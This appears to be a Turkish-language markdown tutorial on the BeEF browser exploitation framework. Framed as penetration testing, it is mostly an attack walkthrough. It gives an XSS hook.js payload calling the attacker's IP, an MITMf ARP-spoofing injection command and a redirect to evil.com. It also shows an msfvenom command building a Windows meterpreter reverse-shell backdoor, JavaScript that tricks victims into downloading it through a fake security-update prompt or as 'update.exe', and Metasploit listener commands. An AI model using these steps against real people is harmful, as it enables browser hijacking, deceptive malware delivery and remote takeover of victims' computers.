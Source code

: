 ### BeEF (Browser Exploitation Framework) Nedir?
BeEF (Browser Exploitation Framework), tarayıcıları hedef alan güvenlik açıklarını test etmek için kullanılan bir sızma testi aracıdır.

### 📌 Ne İşe Yarar?
🔹 XSS açıkları üzerinden tarayıcıyı ele geçirmek
🔹 Hedefin IP, cihaz bilgileri, ağ bağlantıları gibi bilgilerini toplamak
🔹 Tarayıcı üzerinden komut çalıştırarak saldırılar simüle etmek
🔹 Pentest ve güvenlik araştırmalarında kullanılır

### 📌 Nasıl Çalışır?
1️⃣ Hedefin Tarayıcısını Hook'lama
XSS açığı bulunan bir siteye BeEF JavaScript payload’u enjekte edilir.
Kullanıcı bu sayfaya girince tarayıcısı BeEF’e bağlanır.
2️⃣ Tarayıcı Üzerinden Bilgi Toplama ve Exploit Çalıştırma
Kullanıcının IP adresi, işletim sistemi, tarayıcı bilgileri alınır.
Keylogger, sayfa değiştirme, phishing saldırıları gibi testler yapılabilir.
Hedefi Oltaya Takmak
### 2️⃣ Hedef Tarayıcıyı "Hook" Et (Bağlamak)
✅ Hedefin tarayıcısını BeEF’e bağlamak için XSS veya açık bir site kullanılır.
✅ BeEF'in hook.js kodunu hedefte çalıştırmalısın:
```html
html
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Eğer bir web sitesinde XSS açığı bulduysan, yukarıdaki kodu payload olarak enjekte edebilirsin.
🔹 Hedef bu sayfayı açtığında tarayıcısı BeEF’e bağlanır.
```

### 3️⃣ Hedef Tarayıcıya Komut Gönderme
✅ BeEF panelinden hooklanan (bağlanan) tarayıcıyı seç ve aşağıdaki işlemleri yapabilirsin:
🔹 Bilgi Toplama:
Tarayıcı ve işletim sistemi bilgilerini al
Hedefin IP adresini öğren
🔹 Tarayıcı Üzerinde Saldırı Simülasyonu:
Alert pop-up çıkartma:
javascript
alert("Tarayıcınız ele geçirildi!");
Keylogger çalıştırma
Phishing sayfası açma
Sayfa yönlendirme (Redirect)
```javascript
JavaScript Enjeksiyonu
MitM Saldırısı
```
```bash
#python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --inject --js-url
gateway=modem ip
target=hedef ip
(bettercap daha güncel bir araçtır. Genelde artık bettercap kullanılır.)
```
### BeEF Kontrol Paneli – Kısaca Özet
BeEF'in kontrol paneli, bağlanan tarayıcıları yönetmek ve saldırı simülasyonları yapmak için kullanılan bir arayüzdür. http://127.0.0.1:3000/ui/panel adresinden erişilir.

### 📌 BeEF Kontrol Panelinin Bölümleri
## 1️⃣ Online Tarayıcılar (Hooked Browsers)
✅ Bağlanan (hook edilen) tarayıcıları listeler.
✅ Hedefin IP adresi, işletim sistemi, tarayıcı türü ve versiyonu gösterilir.

## 2️⃣ Modüller (Commands)
✅ Hedef tarayıcıda çalıştırılabilecek exploit ve komutları içerir.
✅ Kullanılabilecek bazı modüller:
Alert Box Gönderme (alert("Hacked!"))
Sayfa Yönlendirme (window.location="http://evil.com")
Keylogger (Klavye Dinleme)
Sahte Login Sayfası Gösterme (Phishing)

## 3️⃣ Loglar ve Konsol (Logs & Console)
✅ Çalıştırılan komutların ve hedeften gelen cevapların kaydedildiği bölümdür.
✅ JavaScript kodları girerek hedef tarayıcıda testler yapabilirsin.

## 4️⃣ Ağ Saldırıları (Network Attacks)
✅ Hedef tarayıcı yerel ağda (LAN) çalışıyorsa, yerel cihazları ve portları taramak için kullanılabilir.
### 4️⃣ Hedef Tarayıcıdan Çıkma ve Kapanış
✅ Hedef tarayıcı sayfayı kapatırsa bağlantı kopar.
✅ BeEF’i durdurmak için CTRL + C yaparak terminalden kapatabilirsin.

### 📌 Özet
🚀 BeEF, tarayıcı güvenlik açıklarını test etmek için kullanılır.
✅ XSS açığını kullanarak bir tarayıcıyı "hook" edersin.
✅ Bağlanan tarayıcıda bilgi toplama, yönlendirme ve phishing testleri yapabilirsin.
### BeEF ile Backdoor Gönderme (Kısaca)
BeEF, hedefin tarayıcısını "hook" ettikten sonra çeşitli saldırılar simüle edebilir. Bunlardan biri de bir backdoor dosyasını hedefe iletmek ve çalıştırmasını sağlamaktır.

### 1️⃣ BeEF ile Hedefi "Hook" Et
Öncelikle hedefin tarayıcısını BeEF’e bağlamalısın. Bunun için bir XSS açığı veya hedefin ziyaret ettiği bir sayfaya aşağıdaki hook.js kodunu ekleyebilirsin:
```html
html
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Hedef bu sayfayı açınca tarayıcısı BeEF’e bağlanır.
```

### 2️⃣ Backdoor Payload Hazırla (Metasploit ile)
Metasploit kullanarak bir Windows reverse shell backdoor oluştur:
```bash
bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > backdoor.exe
🔹 LHOST: Kendi IP adresin
🔹 LPORT: Dinleyeceğin port
```

### 3️⃣ BeEF ile Hedefe Backdoor Gönderme
BeEF kontrol paneline gir (http://127.0.0.1:3000/ui/panel) ve "Hooked Browsers" sekmesinden hedefi seç.
✅ Saldırı Modüllerinden "Create Invisible iFrame" Kullan:
Bunu kullanarak arka planda zararlı dosyanın indirildiği bir iFrame oluşturabilirsin:
```javascript
javascript
window.location.href = "http://YOUR_IP/backdoor.exe";
✅ Fake Güncelleme Mesajı ile İndirtme:
Hedefe sahte bir mesaj gösterip backdoor’u indirmesini sağlamak için:
```
```javascript
javascript
alert("Güvenlik güncellemesi gerekli! Güncellemeyi indirmek için Tamam'a tıklayın.");
window.location.href = "http://YOUR_IP/backdoor.exe";
✅ HTML 5 Download API Kullanımı:
```
```javascript
javascript
var link = document.createElement('a');
link.href = 'http://YOUR_IP/backdoor.exe';
link.download = 'update.exe';
document.body.appendChild(link);
link.click();
🔹 Bu yöntem, dosyanın tarayıcı tarafından otomatik indirilmesini sağlar.
```

### 4️⃣ Backdoor’u Dinleme ve Yönetme
Hedef backdoor.exe dosyasını çalıştırırsa, Metasploit ile bağlantıyı dinle:
```bash
bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
exploit
📌 Başarıyla bağlantı kurulduğunda hedef sistem üzerinde kontrol sağlarsın.
```



